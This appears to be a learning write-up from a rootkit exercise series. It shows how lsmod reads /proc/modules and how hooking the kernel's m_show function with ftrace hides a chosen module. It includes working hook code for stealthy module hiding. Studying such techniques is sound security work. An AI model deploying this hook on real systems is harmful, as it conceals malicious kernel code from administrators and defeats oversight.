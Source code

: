 # level 6

the way I aproached this is trying to understand what happens under the hood when I do lsmod.

so here like before I did some strace, and tried to understand what is happening there.

 I saw it opening /sys/module/{module_name},

```
openat(AT_FDCWD, "/sys/module/aesni_intel/holders", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
```

 but unlike previous levels, it didn't call getdents64 on /sys/module.

instead, it did this:

```
openat(AT_FDCWD, "/proc/modules", O_RDONLY|O_CLOEXEC) = 3
```

before all the /sys/module stuff.

so I checked this file and it indeed contained data about all the kernel modules.

so what lsmod does is

1. read /proc/modules
2. for each entry read /sys/module/{module}, parse output and pretty-print it.

Since /proc/modules is in /proc, there is probably a kernel function which is responsible for returning the data,
because /proc is a virtual filesystem.

so now I need to find the function.

here I tried to use [trace-cmd](https://lwn.net/Articles/410200/) for this:

```
sudo trace-cmd record  -p function_graph cat /proc/modules
```

but it returned way too much information:

```
sudo trace-cmd report | wc -l
82883
```

so I tried narrowing it down by grepping 'module', and got to this:

modules_open() which is defined in [kernel/module.c](https://elixir.bootlin.com/linux/latest/source/kernel/module.c#L4641).

so I figured it must be around this area of code in the kernel.

I looked at kernel the functions and code in the file a little bit and found this:

```c
#ifdef CONFIG_PROC_FS
/* Called by the /proc file system to return a list of modules. */
static void *m_start(struct seq_file *m, loff_t *pos)
{
	mutex_lock(&module_mutex);
	return seq_list_start(&modules, *pos);
}
```

this looks relevant to my cause.

So it seems like this

```c
static int m_show(struct seq_file *m, void *p)
{
	struct module *mod = list_entry(p, struct module, list);
	char buf[MODULE_FLAGS_BUF_SIZE];
	void *value;

	/* We always ignore unformed modules. */
	if (mod->state == MODULE_STATE_UNFORMED)
		return 0;

	seq_printf(m, "%s %u",
		   mod->name, mod->init_layout.size + mod->core_layout.size);
	print_unload_info(m, mod);

	/* Informative for users. */
	seq_printf(m, " %s",
		   mod->state == MODULE_STATE_GOING ? "Unloading" :
		   mod->state == MODULE_STATE_COMING ? "Loading" :
		   "Live");
	/* Used by oprofile and other similar tools. */
	value = m->private ? NULL : mod->core_layout.base;
	seq_printf(m, " 0x%px", value);

	/* Taints info */
	if (mod->taints)
		seq_printf(m, " %s", module_flags(mod, buf));

	seq_puts(m, "\n");
	return 0;
}
```

is our culprit function that prints out the module lines. 

like in level 4, this function seems to only print the kernel module information and then return, which means that I can easily hook and mess it up and nothing truely "bad" will happen.

so lets hook it with ftrace like before!

```c
static asmlinkage int new_m_show(struct seq_file *m, void *p)
{
	struct module *mod = list_entry(p, struct module, list);
	if (strcmp(mod->name, "module_hiding_rootkit") == 0)
	{
		printk(KERN_INFO "not so fast amigo\n");
		seq_puts(m,"\n");
		return 0;	
	}
	return old_m_show(m, p);
}
```

the above hook worked, the problem is \n is not good here because he tries to read a file from sys/modules named "\n" and fails.

so ```seq_puts(m,"");``` does the job here.

now I can hide arbitrary kernel modules from commands like lsmod.


